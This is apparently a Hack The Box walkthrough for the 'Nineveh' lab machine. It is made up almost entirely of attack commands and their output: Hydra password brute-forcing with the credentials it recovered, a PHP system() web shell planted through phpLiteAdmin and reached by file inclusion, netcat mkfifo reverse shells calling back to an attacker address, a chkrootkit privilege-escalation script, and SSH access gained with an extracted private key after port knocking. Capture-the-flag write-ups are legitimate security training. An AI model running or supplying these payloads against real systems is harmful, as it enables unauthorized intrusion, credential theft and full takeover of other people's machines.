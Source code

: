 **Enumeration** 
```shell
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.43 -o http-output.txt

Ignore SSL error:
root@kali:~/HTB/Nineveh# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.43 -o https-output.txt -k
Find:
http://10.10.10.43/department/login.php
https://10.10.10.43/db/
https://10.10.10.43/secure_notes/
```
**Hydra:**
```shell
root@kali:~/HTB/Nineveh# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64
```
**For Department page:
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found**
```shell
root@kali:~/HTB/Nineveh# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64
```
**For PHP Lite Admin page:
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123**

**Show details by -x:
root@kali:~/HTB/Nineveh# searchsploit -x 24044.txt**

Then make reverse shells(shells.txt):

Create database "ninevehNotes.php" Field=1

Rename table:test --> Table 'ninevehNotes' 
```shell
Field input:
<?php echo system($_REQUEST["ipp"]; ?>
```
#### MOVE to Burp and change to POST:
--------------------------------------------------------------------
```shell
POST /department/manage.php?notes=/var/tmp/ninevehNotes.php HTTP/1.1
Host: 10.10.10.43
...
ipp=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+1668+>/tmp/f
```
--------------------------------------------------------------------
#### REMEMBER Encode special character like " " ---> "+" and ";"--->"%3b" "&"--->"%26"
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 1668 >/tmp/f
Applied to web shell:
ipp=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+1668+>/tmp/f
```
--------------------------------------------------------------------
**As python setting problem:**
```shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
**CRON job on report, show history**
```shell
www-data@nineveh:/report$ ps -eo command
```
**LOOP history action:**
```shell
www-data@nineveh:/report$ for i in $(ps -eo command)ls ; do echo $i; done
To confirm IFS is "space" as new line:
www-data@nineveh:/report$ IFS=$'\n'
```
***write a script: procmon.sh***
```shell
--------------------------------------------------------------------
#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process")
	sleep 1
	old_process=$new_process
done
--------------------------------------------------------------------
```
```shell
www-data@nineveh:/var/tmp$ ./procmon.sh

172a173
> sleep 1
172a173,177
> /usr/sbin/CRON -f
> /bin/sh -c /root/vulnScan.sh
> /bin/bash /root/vulnScan.sh
> /bin/sh /usr/bin/chkrootkit
...
< ps -eo command
...
```
### "< /bin/sh /usr/bin/chkrootkit" finds exploit-db 33899
### Then create a update file placed /tmp as /tmp/update
### "/3"--> as Third terminal!
```shell
--------------------------------------------------------------------
#!/bin/bash
rm /tmp/3;mkfifo /tmp/3;cat /tmp/3|/bin/sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/3
--------------------------------------------------------------------
```
#### ~Other way~
https://10.10.10.43/secure_notes/
Show hidden content: 
root@kali:~/HTB/Nineveh# binwalk -Me nineveh.png 
...
As a result:
Public key:
root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# cat nineveh.pub 
Private Key:
root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# cat nineveh.priv 
-----BEGIN RSA PRIVATE KEY-----
...
root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# chmod 600 nineveh.priv 
BUT No SSH^-^
www-data@nineveh:/etc/init.d$ netstat -alnp | grep LIST
netstat -alnp | grep LIST
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               

This is port knocking services~~
www-data@nineveh:/etc/init.d$ cat /etc/knockd.conf
....
[openSSH]
 sequence = 571, 290, 911 
....
Below all wrong:
for i in 571 290 911; do nmap -Pn -p $i --host_timeout 201 --max-retries 0 10.10.10.43; done
for x in 571 290 911; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x 10.10.10.43; done
Real:
root@kali:~/HTB/Nineveh# for i in 571 290 911; do nmap -Pn -p $i --max-retries 0 10.10.10.43; done
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
571/tcp filtered umeter

Nmap done: 1 IP address (1 host up) scanned in 1.35 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
290/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.43
Host is up.

PORT    STATE    SERVICE
911/tcp filtered xact-backup

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
Then:
root@kali:~/HTB/Nineveh# nmap -p 22 10.10.10.43
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-01 00:20 HKT
Nmap scan report for 10.10.10.43
Host is up (0.22s latency).

PORT   STATE SERVICE
22/tcp open  ssh
Finally readly to connect:

root@kali:~/HTB/Nineveh/_nineveh.png.extracted/secret# ssh -i nineveh.priv amrois@10.10.10.43
```
